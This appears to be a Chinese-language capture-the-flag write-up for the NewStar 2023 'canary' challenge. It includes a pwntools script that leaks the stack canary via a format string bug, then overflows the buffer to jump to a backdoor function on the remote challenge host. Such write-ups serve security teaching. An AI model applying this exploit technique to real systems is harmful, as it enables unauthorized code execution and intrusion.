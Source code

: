 ```yaml
---
title: newstar2023 week2 - canary
date: 2023/10/1 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用格式化字符串漏洞获取canary值，栈溢出后跳转至后门函数。
---
```


## 文件分析

下载`canary`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序发现后门函数，且没有pie，首先利用格式化字符串漏洞打印出canary的值，
然后栈溢出补上canary后跳转到后门函数即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26476)

# payload 1
sh.sendline(b'%11$p') # get canary

sh.recvuntil(b'gift:\n') # skip
canary = int(sh.recvline()[:18], 16)

# payload 2
backdoor = 0x00401262
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(backdoor))

sh.interactive()
```

Done.

